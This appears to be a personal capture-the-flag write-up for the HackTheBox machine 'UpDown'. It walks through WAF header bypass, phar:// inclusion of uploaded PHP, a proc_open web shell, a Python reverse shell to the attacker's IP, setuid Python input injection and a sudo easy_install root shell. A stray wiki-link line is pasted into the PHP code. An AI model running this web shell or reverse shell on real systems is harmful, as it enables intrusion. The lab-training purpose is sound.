



# Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There is a website hosted on apache and its dns is siteup.htb
Using nc to listen on port 80 and accessing our ip we get:

Nothing much was discovered
Now trying http://127.0.0.1 with debug mode we get

Trying to access files with `file:///etc/passwd`
It says hacker detected.
Trying to ping our machine with `ftp://10.10.14.37`
Trying gopher`gopher://10.10.14.37:70`

Now running gobuster we found the dev directory.

Now trying to run one more gobuster on dev directory
Since it is .git using git-dumper to get source code
Index.php

Trying to access index.php with burpsuite:

Checking out git commits using `git log`

So checking this commit with `git checkout 8812785e31c879261050e72e20f298ae8c43b565`

So trying the header
We just get a 200 OK
We notice that there is a vhost so trying dev.siteisup.htb
We get an access forbidden.
But adding the header we get the response.

Now we can add a match and replace rule to bypass the WAF.

Now we notice there is a file upload 
q

The file gets deleted after checking sooooo we gotta hang. 
Can do this by adding our ip to the test.txt and using `nc -nlvpk 80` to keep the connection.
Now we can access it yaaaaaaayyyy:

But we still need to get around the fact that .php files are blocked.

Here comes the Important trick for bypassing this.
We can get LFI by using a .phar file (can also use any extension like jpeg).

`zip test.phar test.php`
Then to access it:
http://dev.siteisup.htb/?page=phar://uploads/f0217cf843d10cf70a840fb19967a434/test.phar/test
or with burp suite:

We get a 500 internal error instead of 200 ok 
Now trying a php with echo in it instead of the webshell.

no need to add .php as it is in the code to add
With echo command we get code execution:
`<?php echo 'YtfNotWorking' ?>`

Trying  `<?php phpinfo(); ?>`

We get a list of disabled functions
To get a dangerous function we could use this: https://github.com/teambi0s/dfunc-bypasser or we can create our own php code from it.
```php
<?php 
$dangerous_functions = array('pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped',
'pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler',
'pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec',
'pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru',
'link','symlink','syslog','ld','mail','mb_send_mail','imap_open','imap_mail','libvirt_connect','gnupg_init','imagick');

foreach ($dangerous_functions as $function) {
    if (function_exists($function)) {
        echo $function . " is enabled.";
    }
}
?>
```
Now archiving it into dangerous.phar
Using this we get the answer in burp:

proc_open is available

So now using a web shell with proc_open
```php
<?php
function execute_command($cmd) {
    $descriptors = [
        0 => ['pipe', 'r'], 
        1 => ['pipe', 'w'], 
        2 => ['pipe', 'w']  
    ];

    $process = proc_open($cmd, $descriptors, $pipes);

    if (is_resource($process)) {
        
        $output = stream_get_contents($pipes[1]);
        $errors = stream_get_contents($pipes[2]);

        // Close the pipes
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);

        // Close the process
        proc_close($process);

        // Prepare the output for HTML display
        $output = htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
        $errors = htmlspecialchars($errors, ENT_QUOTES, 'UTF-8');
[[IDOR(Insecure Direct Object References)]] module.
        // Output the result in a user-friendly manner
        echo '<pre>';
        echo '<strong>Command:</strong> ' . $cmd . "\n\n";
        echo '<strong>Output:</strong>' . "\n" . $output . "\n";
        echo '<strong>Errors:</strong>' . "\n" . $errors . "\n";
        echo '</pre>';
    }
}

// Check if a command is submitted
if (isset($_POST['command'])) {
    // Get the command from the form submission and execute it
    $command = $_POST['command'];
    execute_command($command);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>W3bSh3ll by d4rkiZ</title>
</head>
<body>
    <h1>W3bSh3ll by d4rkiZ</h1>
    <form method="POST" action="">
        <input type="text" name="command" placeholder="Enter your command">
        <button type="submit">Send</button>
    </form>
</body>
</html>
```
Now uploading it and accessing it with:
`http://dev.siteisup.htb/uploads/2242456f01bba35834701e734af17d63/shell.phar/shell`
Then using a python shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.37",9003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Now we find 2 files in dev directory:

Of file types:

Now checking the python file:

It is a python2 file.
Since it is taking an input and has a suid or setuid bit.
We can privesc with python input as the siteisup application calls for the python file:
`__import__('os').system('/bin/bash') `

It worked!

We had to use the ssh key to access user.txt because only setuid was used and not setgid too
Now we notice we can run easy_install as sudo so using gtfobins:
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
We got a root shell:
